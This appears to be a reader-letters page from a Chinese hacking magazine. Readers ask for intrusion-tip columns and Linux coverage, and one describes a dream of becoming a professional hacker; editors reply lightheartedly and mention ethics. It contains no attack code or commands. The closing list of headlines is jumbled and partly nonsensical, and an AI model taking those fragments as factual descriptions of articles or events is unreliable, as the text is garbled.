杂志的内容没得说的，一级的棒！篇篇都精彩，相信都是编辑们精挑细选的吧！（鼓掌）只是偶尔会出现一些关于 QQ 的文章不尽人意。关于 QQ 的各种技巧的文章很好，但是领取东西的就免了吧！因为也许在杂志上看是比较新的方法，但在网上已经是过时的了，况且只要偶尔上上网、浏览一下网页的人都知道。

希望每期都能登一些类似于“我在入侵过程中注意到的细节”或“入侵过程中的常用小技巧”这种小心得。当然作者最好是高手啊！

**过年关心灾区报道的某编：** 向灾区读者问好，大家节后能买到“黑手”了吗？感谢各位的来信。“众口难调”是个问题，但也要妥善地解决，当然不能照顾周全，就请大家各抒所见吧！至于各种语种，现在貌似易语言开始登场了哦！

## 黑手·梦想

城市 / 泰安  
论坛 ID / 无  
邮件 / mohunkuang@qq.com

**→有什么建议和意见**

真的好久好久就确立的梦想，成为一个真正的职业黑客，只是这里条件有限，无法接触到黑客这方面的东西，平时总会买些书或者在网吧上网。真的想向着自己的梦想去追求！成为黑客不为成名，不为获利，只为成就自己久违的梦想！

**不想成为黑客的黑编：** 借用读者的一句话：“要想成为一名职业的黑客是多么的不容易，而且必须具备职业道德，值得努力学习啊！”

城市 / 郑州  
论坛 ID / 无  
邮件 / 无

**→有什么建议和意见**

看了咱们的书好几期了，一直没有发现过关于 Unix、Linux 之类的文章，我想，操作系统全世界不只是只有 Windows 一个的。

**被遗漏的 Linux 编辑：** 老六呀，大地呀，那位天使姐姐做的好事，终于遇到“高级”读者了！不过偶很奇怪，咱们的书一直都有 Linux 的栏目呀？难道是我记错了，再翻书找找……


## 黑客手册

## 非安全独家内幕

### 浙江舟山黑客门：谁是背后黑手？

### 国有线电视新闻网“烧票”大出场

### 首发攻击技术！离别前 Oracle 圣战

### 首次利用 PHP 病毒同一天使地球超重了吗？（大声问）

安全焦点网

NO.107

网络信息安全

### 父眼看黑

惊爆着：黑与旺旺？

## 黑小说

兵之计 幸能求侥 探柳 net——剿灭【剑匕】